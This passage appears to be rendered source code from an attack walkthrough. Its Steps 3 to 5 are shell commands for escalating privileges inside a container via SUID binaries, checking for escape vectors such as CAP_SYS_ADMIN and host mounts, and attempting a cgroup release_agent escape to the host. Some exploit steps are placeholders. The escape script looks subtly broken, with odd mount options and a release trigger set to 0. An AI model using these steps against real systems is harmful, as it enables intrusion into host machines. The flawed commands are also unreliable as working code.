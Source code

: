 **Step 3: Privilege Escalation within the Container**

```bash
# Attempt to escalate privileges within the container.  This is highly dependent on the container's configuration.
# Common techniques include exploiting SUID binaries, kernel vulnerabilities, or misconfigurations.
# This example demonstrates exploiting a known SUID binary.  Replace with actual exploit.

# Check for SUID binaries
find / -perm -4000 2>/dev/null

# Identify potential SUID binaries that could be exploitable (e.g., 'sudo', 'pkexec')
# Example: /usr/bin/sudo

# Exploit the SUID binary.  This is a placeholder.
# ./sudo_exploit /bin/bash

# Expected Output: A root shell within the container.

# Explanation:  This step attempts to gain root privileges within the container.  If successful, we can now perform actions as root within the container's namespace.
# Alternative:  Explore kernel vulnerabilities if SUID exploitation fails.
```

**Step 4: Identify potential container escape vectors.**

```bash
# From within the container, identify if it's running in privileged mode

if [ -f "/proc/1/mountinfo" ]; then
    grep " / " /proc/1/mountinfo | grep "ro,"
    if [[ $? -ne 0 ]]; then
       echo "Container might have host access"
    fi
fi

# Check if any host paths are mounted into the container
mount | grep hostPath

# Check if the container is running with hostNetwork=true. If so, the container shares the host's network namespace
ip a

# Check for capabilities of the container.  If running with CAP_SYS_ADMIN, potential for escape.
capsh --print
```

**Step 5: Container Escape (If Possible)**

```bash
# Attempt to escape the container to gain access to the host node.
# This is also highly dependent on the container's configuration and potential vulnerabilities.
# This is a placeholder; replace with actual escape technique.  Common techniques involve abusing cgroups, Docker API sockets, or kernel vulnerabilities.

# Example: Attempting a cgroup release_agent escape. (Highly dependent on specific configurations.)
# Note: This requires CAP_SYS_ADMIN.

mkdir /tmp/cgroup_poc
mount -t cgroup -o rd,release_agent=/tmp/cgroup_poc/release_agent cgroup /tmp/cgroup_poc
echo $$ > /tmp/cgroup_poc/tasks
echo '#!/bin/sh' > /tmp/cgroup_poc/release_agent
echo 'chroot /mnt/host /bin/bash' >> /tmp/cgroup_poc/release_agent
chmod a+x /tmp/cgroup_poc/release_agent
mkdir /tmp/cgroup_poc/nested
echo 0 > /tmp/cgroup_poc/nested/notify_on_release
echo 1 > /tmp/cgroup_poc/nested/cgroup.procs
```